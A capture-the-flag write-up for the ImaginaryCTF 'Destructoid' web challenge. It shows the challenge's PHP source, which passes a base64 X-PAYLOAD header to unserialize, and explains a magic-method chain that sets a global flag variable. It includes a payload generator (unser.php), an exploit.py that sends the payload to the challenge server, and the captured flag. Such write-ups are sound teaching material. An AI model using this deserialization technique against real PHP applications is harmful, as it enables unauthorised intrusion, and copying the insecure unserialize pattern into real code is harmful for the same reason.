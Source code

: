 # Destructoid

## Description
https://www.youtube.com/watch?v=zwpDmwKxulQ

## Files
No files.

## Methodology
We somehow have to leak the source code of the webapp. After a bit of fuzzing we get it.

https://destructoid.chal.imaginaryctf.org/index.php?source

```php
 <?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}
```

Clearly there is an `unserialize` method used which is our entrypoint of the exploit. We have to send our payload in the HTTP header but sending `HTTP_X_PAYLOAD` won't work. Read the php docs and you will know we have to send the payload in `X-PAYLOAD` header.

## Exploit
We will chain the magic methods to execute what we want.

`__destruct` and `__wakeup` will get called immediately upon unserialization.

`__construct` will get called when we create an object from `X`.

`__toString` will get called when we `echo` an object.


We start with `Y` and set `$secret` to `$this` so as to echo itself (class Y by `__wakeup` function). Then the `__toString` of Y will be called and set `printflag` to `true` and create `new X` which we don't care about (this trigger the printing of `No!`). The in the unserialization payload we also set some arbitrary variable to `new X("flag")`. This create new object of `X`, we already have `$printflag` set to `true` and we get the flag.

## Code
### `unser.php`
```php
<?php

class X {
    function __construct($cleanup) {
        $this->cleanup = $cleanup;
    }
}

class Y {
    public function __construct() {
        $this->secret = $this;
        $this->mmmmmm = new X("flag");
    }
}

echo serialize(new Y());
```

### `exploit.py`
```python
import requests
import subprocess
import base64

result = subprocess.run(['php', 'unser.php'], stdout=subprocess.PIPE)
pay = base64.b64encode(result.stdout)
pay = pay.decode()

h = {'X-PAYLOAD': pay}

r = requests.get('https://destructoid.chal.imaginaryctf.org/', headers=h)
print(r.content.decode())
```

## Loot
![loot](./loot.PNG)

## Flag
**ictf{d3s3r14l1z4t10n_4nd_d3struct10n}**